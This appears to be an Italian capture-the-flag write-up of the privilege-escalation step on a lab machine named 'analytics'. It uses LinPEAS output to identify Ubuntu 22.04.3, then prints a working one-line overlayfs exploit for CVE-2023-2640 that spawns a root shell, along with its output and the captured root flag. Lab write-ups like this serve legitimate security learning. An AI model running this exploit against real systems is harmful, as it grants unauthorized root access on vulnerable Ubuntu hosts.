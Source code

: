 ## PRIVESC

Scarichiamo sulla macchina [LinEPAS.sh](LinEPAS.sh) ed eseguiamo, alla voce System information troviamo la versione di Linux Ubuntu 22.04.3 LTS

```bash
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.3 LTS
Release:        22.04
Codename:       jammy
```

Cercano su google per la versione `Ubuntu 22.04.3 LTS` troviamo [Questo](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/) post dove si parla di due CVE. LA  [**CVE-2023–2640**](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)e la  [**CVE-2023–32629**](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/).

### CVE -2023-2640

Partiamo dalla prima

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")'
mkdir: cannot create directory ‘1’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
Failed to set capabilities on file `1/python3' (No such file or directory)
The value of the capability argument is not permitted for a file. Or the file is not a regular (non-symlink) file
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

Nel mio caso, la CVE-2023–2640 si è rivelata subito efficace ed è stato ottenuto l'accesso root.

e ci prendiamo la nostra root\_flag

```bash
root@analytics:~# cat /root/root.txt
5d94322c58e7914aea78481289b35403
```

## CVE-2021-3493
